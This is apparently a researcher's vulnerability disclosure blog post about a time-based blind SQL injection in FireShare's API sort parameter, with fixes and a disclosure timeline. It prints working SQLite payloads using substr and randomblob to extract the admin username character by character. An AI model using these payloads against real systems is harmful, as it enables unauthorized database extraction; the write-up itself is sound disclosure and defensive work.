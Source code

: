 ```yaml
---
date: 2025-08-20 19:52:39
layout: post
title: Blind SQL Injection in FireShare, Found in an API sort Parameter
description: Blind SQL Injection in FireShare, Found in an API sort Parameter
image: /assets/img/uploads/20250425_0752_hacker-duck-vibes_remix_01jsppw8k0fg2ay4nmng7cpe87.png
optimized_image: /assets/img/uploads/20250425_0752_hacker-duck-vibes_remix_01jsppw8k0fg2ay4nmng7cpe87.png
category: research
tags:
  - security
  - web
  - filesharing
  - security
  - cybersecurity
  - research
  - hacking
  - hacked
  - vulnerability
author: CyberDucky
paginate: false
---
```

\
Severity: High\
Impact: Sensitive Data Extraction (Usernames, Role Discovery)

- - -

## How I Found It

While exploring the /api/videos/public endpoint, I noticed the sort parameter was behaving oddly. Instead of rejecting unexpected values, the backend seemed to pass whatever I gave it directly into the query. That raised a red flag.

I suspected SQL injection, but this wasn’t a straightforward one where you instantly see errors or output. Instead, it turned out to be time-based blind SQL injection—which means the attacker gets clues from how long the server takes to respond, even if no data is shown directly. Here, the injection was hidden inside the ORDER BY clause, which normally controls the order of results.

- - -

## The Endpoint

```
GET /api/videos/public?sort=

```

- - -

## The Breakthrough

To test the idea, I injected a payload designed to cause a noticeable delay if a certain condition was true. Here’s the one that worked:

```
(SELECT CASE WHEN substr((SELECT username FROM user LIMIT 1 OFFSET 0), 1, 1) = 'a' 
    THEN randomblob(100000000) ELSE 'a' END)
```

What this does:

* It checks the first character of the first username in the user table.
* If the character is 'a', it generates a huge random blob to slow the query down.
* By measuring response time, I could infer whether my guess was right.

That’s classic blind SQLi. By repeating the process one character at a time, you can reconstruct entire usernames without ever seeing them directly.

- - -

## Extracting admin

Using this approach, I was able to confirm the presence of an admin account by testing each character:

```
(SELECT CASE WHEN substr((SELECT username FROM user LIMIT 1 OFFSET 0), 1, 1) = 'a' THEN randomblob(100000000) ELSE 'a' END)
(SELECT CASE WHEN substr((SELECT username FROM user LIMIT 1 OFFSET 0), 2, 1) = 'd' THEN randomblob(100000000) ELSE 'a' END)
(SELECT CASE WHEN substr((SELECT username FROM user LIMIT 1 OFFSET 0), 3, 1) = 'm' THEN randomblob(100000000) ELSE 'a' END)
(SELECT CASE WHEN substr((SELECT username FROM user LIMIT 1 OFFSET 0), 4, 1) = 'i' THEN randomblob(100000000) ELSE 'a' END)
(SELECT CASE WHEN substr((SELECT username FROM user LIMIT 1 OFFSET 0), 5, 1) = 'n' THEN randomblob(100000000) ELSE 'a' END)
```

Each payload introduced a delay, confirming that the username was indeed admin.

To double-check, I ran a direct string comparison:

```
(SELECT CASE WHEN (SELECT username FROM user LIMIT 1 OFFSET 0) = 'admin' 
    THEN randomblob(100000000) ELSE 'a' END)

```

The delay confirmed it — the first account was admin.

- - -

## Root Cause

The vulnerable query looks something like this:

```
SELECT * FROM video JOIN ... WHERE ... ORDER BY <user_input>
```

The sort parameter is directly interpolated into the ORDER BY clause with no validation or sanitization, making it trivial for an attacker to inject arbitrary SQL expressions.

- - -

## Why It’s Dangerous

An attacker could use this to:

* Extract usernames, emails, and possibly password hashes.
* Enumerate tables and columns in the database.
* Confirm and impersonate high-privilege users like admin.

- - -

## Fixes I’d Recommend

1. Don’t trust user input in queries. Use parameterized queries and ORM-safe ordering functions.
2. Whitelist allowed sort values. Only accept known-good column names.
3. Validate inputs. Never pass unchecked data into an ORDER BY clause.
4. Additional defenses:
5. * Add rate limiting to slow down brute-force extraction.
   * Deploy WAF (Web Application Firewall) rules that block patterns like randomblob(, substr(, or CASE WHEN (all of which are SQL-related commands attackers might use during injection attempts).

Example ORM-safe code with SQLAlchemy:

```
if sort in allowed_columns:
    query = query.order_by(getattr(Model, sort))

```

- - -

## Timeline

* Day 0 – Found and confirmed the vulnerability.
* Day 1 – Reported it to the vendor.
* Day 30 – Plan to disclose publicly if no fix is in place.

- - -

## Final Thoughts

This one was fun because it looked harmless at first. A sort parameter doesn’t scream “critical vulnerability,” but since it was dropped straight into the query, it turned into a high-impact blind SQL injection.

I didn’t go further than confirming the admin account existed, but with enough patience, an attacker could dump the entire database.

Hopefully, this helps the team patch things up before anyone malicious stumbles across it.



## References:

<https://github.com/ShaneIsrael/fireshare/issues/311#event-18823718517>

<https://github.com/ShaneIsrael/fireshare/releases/tag/v1.2.26>